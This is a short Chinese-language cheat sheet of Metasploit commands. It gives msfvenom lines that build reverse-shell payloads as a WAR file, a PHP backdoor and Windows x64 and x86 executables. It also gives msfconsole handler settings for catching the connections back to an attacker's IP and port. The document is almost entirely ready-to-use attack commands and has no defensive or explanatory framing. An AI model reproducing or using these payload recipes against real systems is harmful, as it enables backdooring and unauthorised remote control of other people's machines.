

# war包

```
msfvenom -p java/jsp_shell_reverse_tcp Lhost=<ip> lport=<port> -f war -o <filename.war>
```




然后msfconsole开启监听

```
msfconsole
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set lhost <ip>
set lport <port>
run
```


# 生成php后门

```
msfvenom -p php/meterpreter/reverse_tcp lhost=<ip> lport=<端口> -f raw -o <filename>.php
```


# 生成win x64架构的exe文件

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<ip> lport=<端口> -f exe -o <filename>.exe
```


# 生成win x32架构的exe文件

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=<端口> -f exe -o <filename>.exe
```

